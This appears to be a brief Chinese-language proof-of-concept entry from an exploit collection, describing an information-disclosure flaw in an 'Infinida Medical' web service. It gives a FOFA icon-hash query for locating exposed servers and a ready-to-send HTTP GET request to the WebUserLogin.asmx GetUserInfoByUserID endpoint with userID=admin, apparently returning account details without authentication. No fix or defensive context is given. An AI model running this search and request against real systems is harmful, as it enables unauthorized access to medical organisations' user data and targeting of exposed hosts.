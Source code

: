# 英飞达医学WebUserLogin.asmx信息泄露

## fofa

```javascript
icon_hash="1474455751" || icon_hash="702238928"
```

## poc

```javascript
GET /webservices/WebUserLogin.asmx/GetUserInfoByUserID?userID=admin HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

![image-20241018160036699](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181600771.png)